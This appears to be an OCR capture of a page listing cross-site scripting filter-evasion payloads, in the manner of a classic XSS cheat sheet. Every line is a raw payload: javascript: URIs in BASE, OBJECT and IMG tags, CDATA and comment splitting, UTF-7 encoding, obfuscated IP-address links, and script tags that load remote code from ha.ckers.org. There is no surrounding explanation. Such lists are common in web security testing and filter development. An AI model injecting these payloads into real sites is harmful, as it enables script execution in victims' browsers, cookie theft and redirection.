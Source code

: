 &lt;BASE HREF=\"javascript&#058;alert('XSS');//\"&gt;

&lt;OBJECT classid=clsid&#58;ae24fdae-03c6-11d1-8b76-0080c744f389&gt;&lt;param name=url value=javascript&#058;alert('XSS')&gt;&lt;/OBJECT&gt;

d=\"alert('XSS');\\")\";

&lt;HTML xmlns&#58;xss&gt;&lt;?import namespace=\"xss\" implementation=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;htc\"&gt;&lt;xss&#58;xss&gt;XSS&lt;/xss&#58;xss&gt;&lt;/HTML&gt;

&lt;XML ID=I&gt;&lt;X&gt;&lt;C&gt;&lt;!&#91;CDATA&#91;&lt;IMG SRC=\"javas&#93;&#93;&gt;&lt;!&#91;CDATA&#91;cript&#58;alert('XSS');\"&gt;&#93;&#93;&gt;

&lt;XML ID=\"xss\"&gt;&lt;I&gt;&lt;B&gt;&lt;IMG SRC=\"javas&lt;!-- --&gt;cript&#58;alert('XSS')\"&gt;&lt;/B&gt;&lt;/I&gt;&lt;/XML&gt;

&lt;t&#58;set attributeName=\"innerHTML\" to=\"XSS&lt;SCRIPT DEFER&gt;alert(&quot;XSS&quot;)&lt;/SCRIPT&gt;\"&gt;

echo('IPT&gt;alert(\"XSS\")&lt;/SCRIPT&gt;'); ?&gt;

&lt;META HTTP-EQUIV=\"Set-Cookie\" Content=\"USERID=&lt;SCRIPT&gt;alert('XSS')&lt;/SCRIPT&gt;\"&gt;

&lt;HEAD&gt;&lt;META HTTP-EQUIV=\"CONTENT-TYPE\" CONTENT=\"text/html; charset=UTF-7\"&gt; &lt;/HEAD&gt;+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-

&lt;A HREF=\"http&#58;//66&#46;102&#46;7&#46;147/\"&gt;XSS&lt;/A&gt;

&lt;A HREF=\"http&#58;//%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D\"&gt;XSS&lt;/A&gt;

&lt;A HREF=\"http&#58;//1113982867/\"&gt;XSS&lt;/A&gt;

&lt;A HREF=\"http&#58;//0x42&#46;0x0000066&#46;0x7&#46;0x93/\"&gt;XSS&lt;/A&gt;

&lt;A HREF=\"http&#58;//0102&#46;0146&#46;0007&#46;00000223/\"&gt;XSS&lt;/A&gt;

&lt;A HREF=\"htt p&#58;//6 6&#46;000146&#46;0x7&#46;147/\"&gt;XSS&lt;/A&gt;

&lt;A HREF=\"//www&#46;google&#46;com/\"&gt;XSS&lt;/A&gt;

&lt;A HREF=\"//google\"&gt;XSS&lt;/A&gt;

&lt;A HREF=\"http&#58;//ha&#46;ckers&#46;org@google\"&gt;XSS&lt;/A&gt;

&lt;A HREF=\"http&#58;//google&#58;ha&#46;ckers&#46;org\"&gt;XSS&lt;/A&gt;

&lt;A HREF=\"http&#58;//google&#46;com/\"&gt;XSS&lt;/A&gt;

&lt;A HREF=\"http&#58;//www&#46;google&#46;com&#46;/\"&gt;XSS&lt;/A&gt;

&lt;A HREF=\"javascript&#058;document&#46;location='http&#58;//www&#46;google&#46;com/'\"&gt;XSS&lt;/A&gt;

&lt;A HREF=\"http&#58;//www&#46;gohttp&#58;//www&#46;google&#46;com/ogle&#46;com/\"&gt;XSS&lt;/A&gt;

&lt;IMG SRC=\"javascript&#058;alert('XSS')\"

&lt;&lt;SCRIPT&gt;alert(\"XSS\");//&lt;&lt;/SCRIPT&gt;

&lt;BODY onload!#$%&()*~+-_&#46;,&#58;;?@&#91;/|\&#93;^`=alert(\"XSS\")&gt;

&lt;SCRIPT/XSS SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
